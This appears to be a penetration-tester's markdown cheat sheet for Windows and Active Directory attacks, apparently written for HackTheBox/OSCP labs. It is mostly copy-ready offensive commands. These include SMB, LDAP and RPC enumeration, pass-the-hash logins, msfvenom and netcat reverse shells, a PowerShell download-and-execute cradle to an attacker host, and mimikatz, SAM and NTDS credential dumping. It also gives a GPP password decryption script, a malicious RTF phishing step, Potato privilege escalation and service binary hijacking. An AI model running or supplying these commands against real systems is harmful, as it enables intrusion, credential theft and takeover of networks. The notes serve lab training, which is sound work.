







# Windows/AD Enumeration 
## Cheat sheets
https://0xsp.com/offensive/offensive-cheatsheet  
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/  

[Windows Shell cheat sheet](/OSCP/WINDOWS_SHELL.md)  
[Powershell cheat sheet](/OSCP/POWERSHELL.md)  

## Refs
[Windows/AD Enumeration much more in return](evernote:///view/154730691/s619/62423c91-8a03-6273-a5df-bfd52260f87b/1d460891-63f3-60f9-1414-81daf5a18a5c/)

## Scripts
### PowerUp.ps1
https://mlcsec.com/hackthebox-re/#web-shell
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

### unix2dos script.txt
- !!! Converting and Copying a script from linux to windows !!!

# SMB Enumeration
https://book.hacktricks.xyz/pentesting/pentesting-smb

**!!! Always check if we can write in some directories !!!**

## Crackmapexec

	crackmapexec smb 10.10.10.157
	crackmapexec smb 10.10.10.157 --pass-pol
	crackmapexec smb 10.10.10.157 -u 'testuser' -p 'testpass'

- If no "pawned" in output, then we can enum the shares with --shares at the end.

- Get shares but with crackmapexec we should always specify a (fake?) username AND password to get some results.

		crackmapexec smb 10.10.10.157 -u username 'test' -p password '' --shares 

- PTH with crackmapexec

		crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d:9658d1d1dcd9250115e2205d9f48400d --shares

- To crawl and output every directory in the shares

		crackmapexec smb 10.10.10.234 -u username -p password -M spider_plus

## SMBClient

- Get shares with anonymous request

		smbclient -N -L //10.10.10.157

- If we have some share, we can try to connect it with smbclient:

		smbclient //10.10.10.146/Share

## SMBMap

- Get shares but with smbmap we should always a specify a (fake?) username, otherwise we don't get results

		smbmap -H 10.10.10.157 -u "username"

## MSF Console

- Check smb version

		use auxiliary/scanner/smb/smb_version

- Check eternal blue 

		use auxiliary/scanner/smb/smb_ms17_010

## Mounting a share

- We can mount it directy in the system:

		sudo mount -t cifs //10.10.10.234/Share /mnt/share/

		OR

		sudo mount -t cifs -o 'username=user,password=password' //10.10.10.123/Share /mnt/share

- OR For a Nul Authentication

		sudo mount -t cifs -o guest //10.10.10.123/Share /mnt/share

### Look for writable files in smb shares

	find . -type d | while read directory; do

	touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf;

	mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/0xdf;

	done

## Check SMB Session with the `msfconsole`

- Test for valid login session
	First we test SMB login with the msfconsole or with crackmapexec

		msfdb run

- use auxiliary/scanner/smb/smb_login (same as crackmapexec but we can use the "setg" command to set a variable in the msf environment)

	

	creds (to see what msf found with the scanner)

	

- Then we check if we can have a valid session with winRM

		use auxiliary/scanner/winrm/winrm_login (rhosts, pass_file etc... are already set because we used the setg command)
		run

- Then we can quit the console and run winRM

# LDAP enumeration
## Nmap script to enumerate LDAP

	locate -r nse$ | grep ldap

	nmap -p 389 --script ldap-rootdse -Pn 10.10.10.134
	
	OR
	
	nmap -p 389 --script ldap-search -Pn 10.10.10.134

## Enumerate LDAP with `ldapsearch`

To make LDAP queries, we need to know the base DN (Distinguished name).

	ldapsearch -h 10.10.10.134 -x (simple auth)
	ldapsearch -h 10.10.10.134 -x -s base namingcontexts
	ldapsearch -h 10.10.10.134 -x -b "DC=htb,DC=local"

	ldapsearch -LLL -h 10.10.10.172 -x -b "" -s base '(objectclass=*)'

**Look at Ippsec Forest video.**

- Look for a specific user

		ldapsearch -x -h 10.10.10.172 -b "DC=MEGABANK,DC=LOCAL" "(cn=Sally Morgan)"

- Look for a certain class of object

		ldapsearch -x -h 10.10.10.172 -b "DC=MEGABANK,DC=LOCAL" "(objectClass=Person)"

- We can add filters

		ldapsearch -x -h 10.10.10.172 -b "DC=MEGABANK,DC=LOCAL" "(objectClass=Person)" sAMAccountName

- Filters:

		ldapsearch -h 10.10.10.134 -x -b "DC=htb,DC=local" | grep -i pw (looking for password)
		ldapsearch -h 10.10.10.134 -x -b "DC=htb,DC=local" | grep -i cascadeLegacyPwd
		ldapsearch -h 10.10.10.134 -x -b "DC=htb,DC=local" | awk '{print $1}' | sort | uniq -c | sort -nr

- Search with creds:

		ldapsearch -D support@blackfield.local -W -H ldap://10.10.10.192 -b "dc=blackfield,dc=local"

		OR

		ldapsearch -D support@blackfield.local -w Booby -H ldap://10.10.10.192 -b "dc=blackfield,dc=local"

		ldapsearch -x -D "uid=search-user,ou=People,dc=example,dc=com" \

		-W -H ldap://ldap.example.com -b "ou=People,dc=example,dc=com" \
		-s sub 'uid=test-user'

	`D:` Use bind user "search-user"  
	`W:` Prompt for password  
	`H:` URL of LDAP server. Non-SSL in this case; use "ldaps://" for SSL  
	`b:` The search base  
	`s:` Search scope - i.e. base for base of tree, one for on level down and sub for recursively searching down the tree (can take a while)  

## LDAP DOMAIN DUMP

	ldapdomaindump -u 'htb.local\amanda' -p Ashare1972 10.10.10.103 -o ~/hackthebox/sizzle-10.10.10.103/ldap/

# RPC enumeration
**Enum4linux can be useful sometimes**

- Base commands

		rpcclient -U '' 10.10.10.134

		OR

		rpcclient -U '' -N 10.10.10.182

		OR

		rpcclient -U 'hazard%stealth1agent' 10.10.10.149

		enumprivs
		srvinfo

- Enum AD

		enumdomusers
		enumdomgroups

		queryuser 0x499
		querygroup 0x299
		queryusergroups 0x2a2
		querygroupmem 0xa29

		querydominfo
		querydispinfo

		getdompwinfo
		getusrdompwinfo 0x44f

- Get users sids

		lsaenumsid
		lookupsids S-1-5-21-2000478354-1708537768-1957994488-501
		lookupnames Administrator

- Change user password
https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html

		setuserinfo2 ima-domainadmin 23 'ASDqwe123'

	If it doesn't work, maybe check -K attribute when connecting to RPC

## Enum RPC with IMPACKET - Lookupsid.py (sid brute or rid brute force)

Get sids from the remote host. (AD and local). Same as rpcclient - lsaenumsid but automatic. (need creds)

	lookupsid.py 'hazard:stealth1agent'@10.10.10.149

# SYSTEM Enumeration
## Upload tools with IMPACKET - Smb Server

- Create a dir to store the files to share.
- Copy files in the dir.
- Start the server

		impacket-smberver gserv $(pwd) -smb2support -user ghost -password ghost

- On the windows machine :

		- Store the password in a variable

		$pass = convertto-securestring 'ghost' -AsPlainText -Force
		$pass (to check the var)

- Create a credential object

		$cred = New-Object System.Management.Automation.PSCredential('ghost', $pass)
		$cred

- Connect the new drive to windows

		New-PSDrive -Name gdrive_002 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.6\gserv

- Go to the file (cd, dir etc...)
- Execute the file

		.\winPEAS.exe

## Automatic TOOLS
### POWERUP
https://mlcsec.com/hackthebox-re/#web-shell
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

	. .\PowerUp.ps1

	Invoke-AllChecks

### SEATBELT

- Seatbelt needs an argument to peform a certain type of enumeration.

		seatbelt NonStandardServices
		seatbelt All

### WINPEAS

- If running from rdp and cmd window, we can update the registry to have more *- colors** inside the window

		reg add HKCU\Console /v VirtualTerminalLevel -t REG_DWORD /d 1
		$regpath = "HKEY_CURRENT_USER\System\CurrentControlSet\ghost"

- To know all the checks

		winpeas.exe -h

	E.g:

		winpeas.exe userinfo
		winpeas.exe quiet applicationsinfo

### ACCESSCHK

	.\accesschk.exe /accepteula -uwcqv user <ServiceName>
	.\accesschk.exe /accepteula -uwdq <PathName>
	.\accesschk.exe /accepteula -uwkqv <RegPath>

### Sherlock

	sherlock -> Find-AllVulns powershell

### Scan Eternal Blue (MS17-010)
https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
https://root4loot.com/post/eternalblue_manual_exploit/

- Check if target is vulnerable

		sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40

- Create a reverse shell (pay attention if the target is 64 or not)

		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

		OR

		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 -f exe -o ms17-010.exe

- Go in toolbox/MS-017 and execute 'send_and_execute'

		python send_and_execute.py 192.168.1.207 ms17-010.exe

## MANUAL SYSTEM ENUMERATION
https://0xsp.com/offensive/privilege-escalation-cheatsheet
[Windows Shell cheat sheet](/OSCP/WINDOWS_SHELL.md)  
[Powershell cheat sheet](/OSCP/POWERSHELL.md)  
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/

### Get system informations

		systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
		hostname
		echo %username%
		echo %path%

		type C:\Windows\System32\license.rtf

		OR

		type C:\Windows\System32\eula.txt

		Get system infos
		Get-Hotfix
		Get-ExecutionPolicy

		Get Architecture

### Get drivers informations

		DRIVERQUERY

### Get users/groups informations

		net users
		net user user1
		net localgroup
		net localgroup Administrators
		net user rottenadmin P@ssword123! /add
		net localgroup Administrators rottenadmin /add

		type C:\WINDOWS\System32\drivers\etc\hosts

### Get network/shares informations

		ipconfig /all
		arp -A
		netstat -ano
		route print
		net share
		net use
		net session

### Check for passwords in the registry

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s

		reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
		reg query "HKLM\System\CurrentControlSet\Services"

### Check for stored credentials

		cmdkey /list

	- Exploit with

			runas /savecred /user:admin C:\Path\To\Evil\Program.exe

### Check for services

		net start
		Get-Service | Where-Object -Property "CanStop" -Match True
		Get-Service | Where-Object -Property "CanStop" -Match True | Where-Object -Property "status" -eq running

### Get applocker policy

		$output = Get-ApplockerPolicy -Effective -xml
		$output > output.xml

	- Copy the xml file on local file server and check it inside a browser

### Check for files or file content inside the current directory

		dir flag* /s /b
		findstr /si password *.xml *.ini *.txt
		dir -ah

		icacls .

		C:\Users\nico\AppData\Roaming\Microsoft\Windows\Recent\

		gci -Recurse '\inetpub\*.cer' -Include *.cer,*.csr,*.key -ErrorAction SilentlyContinue
		gci -Recurse '\tmp\' -Include *.xml,*.ini,*.txt -ErrorAction SilentlyContinue | select-string -pattern 'test'
		gci -path \windows -recurse -Include *.txt -ErrorAction SilentlyContinue | select-string -pattern 'administrator'

	- **Don't forget to look for 'well known folders' inside administrator folder.- **

### Check for scheduled tasks

		schtasks /query /fo LIST /v
		schtasks /query /fo LIST /v
		tasklist /SVC

		OR

		Get-ScheduledTask
		Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

### Look for a specific task

		tasklist /V | findstr mspaint.exe
		get-process
		Get-Process -Id (Get-NetTCPConnection -LocalPort YourPortNumberHere).OwningProcess
		Get-Process -Name Calculator -IncludeUserName

### Enumerate listening services

		netstat -a
		netstat -ap tcp
		netstat -anop
		netstat -ano

	-a: all  
	-n: numeric  
	-o: owner pid  
	-p: protocol  

### Check firewall state

	netsh firewall show state
	netsh firewall show config

# SPAWN SHELL / Foothold Techniques
## Safe Places to Upload a shell

- C:\Windows\temp
- C:\Windows\System32\spool\drivers\color

## From Kali with the winexe tool (use port 445)

	winexe -U 'admin%password123' //10.10.10.1 cmd.exe
	winexe -U 'admin%password123' --system //10.10.10.1 cmd.exe

## From Kali with the winexe tool (Pass The Hash - PTH)

Hash has to be in the LM:NTLM format

	pth-winexe -U 'admin%LM:9658d1d1dcd9250115e2205d9f48400d' //10.10.10.1 cmd.exe
	pth-winexe -U 'admin%LM:9658d1d1dcd9250115e2205d9f48400d' --system //10.10.10.1 cmd.exe

## From the target machine with runas and stored credentials

	runas /savecred /user:admin C:\Path\To\Evil\Program.exe

## Netcat

	.\nc.exe 10.10.14.6 2222 -e cmd.exe

## From a vulnerable GUI Application

If a user can run an app as admin

## IMPACKET - Psexec.py

	./psexec.py EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff

## Evil-WinRM

	evil-winrm -u username -p 'password' -i 10.10.10.134

	OR (PTH)

	evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

- Useful commands in winRM

		gci = ls = dir

		gci -recurse . | select fullname (list all the file recursively)

		gc file.txt (same as type or cat)

## Exploit Icon path to get the foothold
Not too commonly known, you can change the icon-path in a LNK-file and point it to a SMB-server capturing the users password-hash. The beauty with this trick, is that the user don't even has to click the lnk. Opening a window displaying contents of a folder containing such a file, is enough.

- First we create our lnk, using this excellent tool. http://www.mamachine.org/mslink/index.en.html

		./mslink -l notimportant -n shortcut -i \\\\192.168.16.53\\test -o shortcut.lnk

- Start responder and wait to get a hash

## RTF FILE EXPLOIT (CVE-2017-0199)
https://github.com/bhdresh/CVE-2017-0199
https://nvd.nist.gov/vuln/detail/CVE-2017-0199
https://0xdf.gitlab.io/2018/11/10/htb-reel.html

- Generate a payload in hta format

		msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=2222 -f exe -o ghost.exe

OR

- Nishang (check **ippsec video (reel)**)
	- Go inside nishang folder and look for hta
	- Grab the Out-HTA.ps1 file
	- Create a powershell session inside the linux terminal -> pwsh
	- Use the Out-HTA.ps1 file to generate a payload
	    - . .\Out-HTA.ps1
	    - Out-HTA -PayloadURL http://192.168.254.1/shell.ps1
- Then we need to create the shell.ps1 file
- Just copy the reverse tcp shell.ps1 inside the nishang folder and modify it to point to our server

- Generate an rtf file with the tool from github (cve-2017-0199.py)

		python CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.6/file.hta -t rtf

- Upload the malicious rtf file via email for example

		sendemail -f ghost@htb.local -t nico@megabank.com -u "Invoice" -m "Uou are" -a ghost.rtf -s 10.10.10.77 -v

## IOT DEVICES - WINDOWS IoT CORE 
https://github.com/SafeBreach-Labs/SirepRAT
https://www.bleepingcomputer.com/news/security/windows-10-iot-core-test-interface-lets-attackers-take-over-devices/

	python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"

**Just be carreful with the "as_logged_on_user" argument, maybe it's better to no use it.**

# PRIVESC
## Bypass AppLocker
There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

## Processes Exploit
### DUMP A PROCESS IN A FILE

- To get the processes

		Get-Process

- Download Sysinternals Suite - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- unzip it
- upload it and execute it to the windows machine

		upload /path/to/folder/procdump64.exe

		.\procdump64.exe
		.\procdump64.exe -accepteula

		.\procdump64.exe -ma 4689(PID)

- download and extract info from the dump file from the windows machine

		download file.dmp

		cd /opt/evil-winrm/
		ls

		strings file.dmp | grep http or password etc...
		OR
		strings file.dmp | less
		/wordtolookfor

- If dump from lsass process, we can use mimikatz
https://book.hacktricks.xyz/windows/stealing-credentials

		//Load the dump
		mimikatz # sekurlsa::minidump lsass.dmp

		//Extract credentials
		mimikatz # sekurlsa::logonPasswords

## Credentials Extraction
### Decrypt password from GPP PASSWORDS IN GROUPS.XML
https://adsecurity.org/?p=2288
https://pentestlab.blog/tag/cpassword/

- Example path to groups.xml

		\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\

- Once we have the CPassword, the we can crack it with that script (replace the encrypted_data variable with the actual encrypted password).

		require 'rubygems'
		require 'openssl'
		require 'base64'

		encrypted_data = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

		def decrypt(encrypted_data)
		padding = "=" * (4 - (encrypted_data.length % 4))
		epassword = "#{encrypted_data}#{padding}"
		decoded = Base64.decode64(epassword)

		key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"

		aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
		aes.decrypt
		aes.key = key
		plaintext = aes.update(decoded)
		plaintext << aes.final
		pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion
		return pass
		end
		blah = decrypt(encrypted_data)
		puts blah
		
		ruby ./exploit.rb

### DUMP SAM FILE AND CRACK
https://book.hacktricks.xyz/windows/stealing-credentials

- Extract the files(SAM and SYSTEM) from windows/system32/config or from the registry

		reg save HKLM\sam sam
		reg save HKLM\system system

- Use samdump2 to extract hashes

		samdump2 SYSTEM SAM

- OR we can use pwdump.py
https://github.com/Neohapsis/creddump7.git

		pwdump.py /tools/SYSTEM /tools/SAM

### Dump SAM using MIMIKATZ
https://tryhackme.com/room/postexploit  
[HASHCAT](evernote:///view/154730691/s619/abde3799-29f6-bbe2-b038-8bd119e2604c/1d460891-63f3-60f9-1414-81daf5a18a5c/)

- Upload mimikatz on the target machine and run it like so

	Dumping hashes

		privilege::debug
		lsadump::lsa /patch
		hashcat -m 1000 <hash> rockyou.txt

### Extract `NTDIS.sys` with Discshadow
https://roberthosborne.com/privesc

- Create a backup of the system volume and extract ntds.sys from it.

- Create a file named script.txt

		set context persistent nowriters
		set verbose on
		begin backup
		add volume c: alias mydrive

		create

		expose %mydrive% w:
		end backup

- Convert the script to dos format (IMPORTANT !!!)

		unix2dos script.txt

- Run diskshadow on the windows server

		diskshadow.exe /s c:\script.txt

- Import system hive from registry

		reg save hklm\system c:\temp\system.bak

- Copy NTDS.dit

- If we have the backupprivilege

		Import-Module .\SeBackupPrivilegeUtils.dll
		Import-Module .\SeBackupPrivilegeCmdLets.dll

		Copy-FileSebackupPrivilege w:\Windows\NTDS\ntds.dit c:\temp\ndts.dit

- If we don't have the backupprivilege
	https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

		Dump NTDS.dit with impacket secretdump
		secretsdump.py -ntds ntds.dit -system system.bak LOCAL

### Abuse SeImpersonatePrivilege (Juicy Potato)
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

- This access token consists of:

	- user SIDs(security identifier)
	- group SIDs
	- privileges

	Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

- There are two types of access tokens:

	- primary access tokens: those associated with a user account that are generated on log on
	- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

- For an impersonation token, there are different levels:

	- SecurityAnonymous: current user/client cannot impersonate another user/client
	- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
	- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
	- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

	Where the security context is a data structure that contains users' relevant security information.

- The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

	- SeImpersonatePrivilege
	- SeAssignPrimaryPrivilege
	- SeTcbPrivilege
	- SeBackupPrivilege
	- SeRestorePrivilege
	- SeCreateTokenPrivilege
	- SeLoadDriverPrivilege
	    - https://phantominfosec.wordpress.com/2020/07/01/htb-fuse-walkthrough/
	    - https://github.com/mach1el/htb-scripts
	    - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges
	- SeTakeOwnershipPrivilege
	- SeDebugPrivilege

	There's more reading [here](https://www.exploit-db.com/papers/42556).

- Put Nishang reverse-shell in a folfer and start the web server.
- Create a .bat file and upload it to the target machine

		powershell "iex (New-Object Net.WebClient).DownloadString('http://10.9.152.109/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.9.152.109 -Port 2222

- Upload juicypotato.exe on the target machine
https://github.com/ohpe/juicy-potato/releases

- Upload the `.bat` file on the target machine

		powershell –c “(new-object System.Net.WebClient).DownloadFile('http://10.9.152.109/getshell.bat','C:\Users\bruce\getshell.bat')”
		powershell –c “(new-object System.Net.WebClient).DownloadFile('http://10.9.152.109/js.exe','C:\Users\bruce\js.exe')”

- Run JuicyPotato

		.\juicypotato.exe -t * -p getshell.bat -l 9001

### Abuse ImpersonatePrivilege for Windows 10 and Server 2016/2019 (PrintSpoofer)
https://github.com/itm4n/PrintSpoofer

- Upload printspoofer on the target machine

		.\printspoofer.exe -i -c cmd

### HOT POTATO
https://foxglovesecurity.com/2016/01/16/hot-potato/

Works on Windows 7,8 and early version of 10.

	.\potato.exe -ip 10.10.10.1 -cmd "C:\evil\program.exe" -enable_http_server true -enable_defender true -enable_spoof true -enable_exhaust true

## SERVICES EXPLOITS
### AUTOMATIC TOOLS

- WinPeas

		.\winpeas.exe quiet servicesinfo

- AccessChk

		.\accesschk.exe /accepteula -uwcqv user <ServiceName>

### Identify a vulnerable service

- Check rights of a folder

		.\accesschk.exe /accepteula -uwdq <PathName>

		OR

		Get-Acl <PathName> | fl

### Exploit services with `Powershell`

- Get general info about a service

		Get-Service w*
		Get-Service spooler | select -Property *

		Get-Service -Displayname "*network"
		Get-Service -Name "*network" -Exclude "WinRM"

		Get-Service | Where-Object -Property "name" -eq wsearch
		Get-Service | Where-Object -Property "status" -eq running

- Get binary path of a service

		reg query "HKLM\System\CurrentControlSet\Services\spooler" /v "ImagePath"

		**Get services that we can start/stop**

		Get-Service | Where-Object -Property "CanStop" -Match True

		Get-Service | Where-Object -Property "CanStop" -Match True | Where-Object -Property "status" -eq running

- Start/Stop a service

		Start-Service -Name "eventlog"
		Stop-Service -Name "eventlog"

- Change a service property

		Set-Service -Name WinRM -Status Stopped -PassThru
		Set-Service -Name WinRM -Status Running -PassThru

		Set-Service tlntsvr -StartupType manual

### Exploit services with `Windows Shell`

- Query the configuration of a service

		sc.exe qc <name>

- Query the current status

		sc.exe query <name>

- Modify a configuration option of a service

		sc.exe config <name> <option>= <value>

- Start/Stop a service

		net start/stop <name>

### Examples of exploits (POC)
https://medium.com/@ratiros01/tryhackme-steel-mountain-2ab2353cb302

- Replacing the service executable

	- Identify a vulnerable service executable
	- Make a copy of the executable
	- Verify that we can start/stop the service
	- Stop the service
	- Replace the executable with the reverse shell
	- Start the service

- If we can modify the bin path of a service running as root.

		sc.exe config <ServiceName> binpath= "\"C:\path\to\evileverse\shell.exe\**

- Unquoted service path

		Windows checks for executable every time it sees a space in the path.

	E.g:

	- Unquoted path: C:\Program Files\Unquoted Path Services\Common\etc....
	- Windows will check for Program.exe then, Unquoted.exe then Common.exe etc...
	- Which means that if we can wirte somewhere in that path, we can put a reverse shell to exploit the path.
	- For example, we can put a reverse shell, named common.exe inside of the "unquoted path service" folder.

- Modify registry entry

	- Check if we can modify a key registry (we need to be able to start/stop the service)

			.\accesschk.exe /accepteula -uwkqv HKLM\System\CurrentControlSet\Servicesegsvc

	- Check if we can start/stop the service

			.\accesschk.exe /accepteula -uwcqv user regsvc

	- Check the service inside the registry

			reg query HKLM\System\CurrentControlSet\Servicesegsvc

	- Modify the registry by changing the bin path  of the service

			reg add HKLM\System\CurrentControlSet\Servicesegsvc /v ImagePath /t REG_EXPAND_SZ /d C:\MyTerrible\Exploit.exe /f

			reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.10\ghost\netc.exe -e powershell.exe 10.10.14.10 4444" /f

	- Start the service

			net start regsvc

			OR

			start-service regsvc

### DLL Hijacking  
https://pentestlab.blog/2017/03/27/dll-hijacking/

- Identify DLL Hijacking
	- Check in WinPeas output for `Non Windows services`
	- Check the bin path of the service

			sc.exe qc <service name>

- Analyse the .exe of the service directly on the target machine with Procmon64.

	- Open procmon64 (with admin rights)
	- Stop and clear the filter
	- CTRL+L to open the filter config
	- From the drop down list, select "Process Name" and then type the name of the service

	

	- Deselect the "Show registry activity" and "Show network activity"

	

	- Start the capture
	- Start the service

			net start dllsvc

	- Check which DLLs are invoked by the service.

		- If we can replace a DLL that is runned by the service, then we just need to create a new DLL file with a reverse shell inside of it.

		OR

		- If a DLL is missing from the system, and we have access to a folder within the PATH that Windows searches for DLLs in.

				msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=2222 -f dll -o output/path/evil-dll.dll

# SQL
## SQL Tools
### MSSQL-CLI
https://github.com/dbcli/mssql-cli/blob/master/doc/usage_guide.md

	mssqli-cli --help
	mssqli-cli select * from users

